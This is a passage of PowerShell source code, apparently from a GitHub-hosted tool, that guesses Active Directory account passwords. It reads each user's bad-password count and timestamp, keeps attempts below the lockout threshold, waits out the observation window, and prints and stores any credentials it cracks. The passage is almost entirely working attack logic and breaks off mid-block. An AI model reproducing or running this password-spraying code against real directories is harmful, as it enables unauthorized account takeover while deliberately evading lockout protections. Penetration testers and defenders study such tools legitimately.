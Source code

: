 ```powershell
                    $samaccountnname = $userObj[$i].Properties.samaccountname
                    $badpwdcount = $userObj[$i].Properties.badpwdcount[0]
                    $badpwdtime = $userObj[$i].Properties.badpasswordtime[0]
                    
                    # Not yet reached lockout tries
                    If ($badpwdcount -lt ($threshold - 1))
                    {
                        # Try the auth with current password
                        $auth = Perform-Authenticate $samaccountnname $passwords[$numTry[$i]]

                        If ($auth -eq $true)
                        {
                            Write-Host "Guessed password for user: '$samaccountnname' = '$($passwords[$numTry[$i]])'" -BackgroundColor DarkGreen
                            $results += $samaccountnname
                            $results += $passwords[$numTry[$i]]
                            $usersCracked[$i] = $true
                            $done[$i] = $true
                        }

                        # Auth try did not work, go to next password in list
                        Else
                        {
                            $numTry[$i] += 1
                            If ($numTry[$i] -eq $passwords.Length) {$done[$i] = $true}
                        }
                    }

                    # One more tries would result in lockout, unless timer has expired, let's see...
                    Else 
                    {
                        $now = Get-Date
                        
                        If ($badpwdtime)
                        {
                            $then = [DateTime]::FromFileTime($badpwdtime)
                            $timediff = ($now - $then).TotalMinutes
                        
                            If ($timediff -gt $duration)
                            {
                                # Since observation window time has passed, another auth try may be performed
                                $auth = Perform-Authenticate $samaccountnname $passwords[$numTry[$i]]
                            
                                If ($auth -eq $true)
                                {
                                    Write-Host "Guessed password for user: '$samaccountnname' = '$($passwords[$numTry[$i]])'" -BackgroundColor DarkGreen
                                    $results += $samaccountnname
                                    $results += $passwords[$numTry[$i]]
                                    $usersCracked[$i] = $true
                                    $done[$i] = $true
                                }
                                Else 
                                {
                                    $numTry[$i] += 1
                                    If($numTry[$i] -eq $passwords.Length) {$done[$i] = $true}
                                }

                            } # Time-diff if

```